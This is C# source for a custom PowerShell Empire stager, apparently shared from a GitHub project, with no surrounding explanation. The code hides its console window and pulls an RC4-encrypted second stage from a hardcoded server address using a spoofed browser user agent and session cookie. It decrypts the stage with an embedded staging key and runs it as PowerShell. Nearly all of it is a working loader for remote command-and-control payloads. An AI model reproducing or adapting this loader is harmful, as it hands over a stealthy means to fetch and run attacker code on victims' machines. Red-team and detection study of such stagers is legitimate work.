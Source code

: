 ``` 
        // https://stackoverflow.com/questions/34440916/hide-the-console-window-from-a-console-application
        [DllImport("kernel32.dll")]
        static extern IntPtr GetConsoleWindow();
 
        [DllImport("user32.dll")]
        static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
 
        static void Main(string[] args)
        {
            // To Hide the ConsoleWindow (It may be a better way...)
            var handle = GetConsoleWindow();
            ShowWindow(handle, 0);
 
            // Avoid sending Expect 100 Header 
            System.Net.ServicePointManager.Expect100Continue = false;
 
            // Create a WebClient Object (No Proxy Support Included)
            WebClient wc = new WebClient();
            string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
            wc.Headers["User-Agent"] = ua;
            wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
 
            // Set the Server Address and URL 
            string server = "http://192.168.6.119:8081";
            string target = "/CWoNaJLBo/VTNeWw11212/";
 
            // Download The Data or Stage 2
            byte[] data = wc.DownloadData(server + target);
 
            // Extract IV
            byte[] iv = data.Take(4).Select(i => i).ToArray();
 
            // Remove the IV from the data
            byte[] data_noIV = data.Skip(4).ToArray();
 
            // Set Key value for decryption. PowerEmpire StageingKey value 
            string key = "fdcece0a22c10f83dccc8f17c95a33d4";
            byte[] K = Encoding.ASCII.GetBytes(key);
 
            // Combine the IV + Key (New random key each time)
            byte[] IVK = new byte[iv.Length + K.Length];
            iv.CopyTo(IVK, 0);
            K.CopyTo(IVK, iv.Length);
 
            // Decrypt the Message
            byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
            // Convert the stage2 decrypted message from bytes to ASCII
            string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
 
            // Create a PowerShell Object to execute the command 
            PowerShell PowerShellInstance = PowerShell.Create();
 
            // Create the variables $ser and $u which are part of the downloaded stage2
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
 
            // Add the Script Stage 2 to the Powershell Object
            PowerShellInstance.AddScript(stage2);
 
            // Execute the Script!
            PowerShellInstance.Invoke();
```